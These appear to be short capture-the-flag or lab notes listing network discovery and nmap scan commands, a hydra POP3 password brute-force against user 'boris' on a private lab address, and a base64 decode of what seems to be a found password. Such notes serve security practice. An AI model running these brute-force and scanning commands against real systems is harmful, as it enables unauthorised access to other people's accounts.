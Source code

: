 # 扫描arp，来检查周围的地址

netdiscover -i eth1

# nmap

nmap -p- -A (IP)

# hydra

hydra -l boris -P /usr/share/wordlists/fasttrack.txt 192.168.56.101 -s55007 pop3


echo `echo eFdpbnRlcjE5OTV4IQ== | base64 --decode`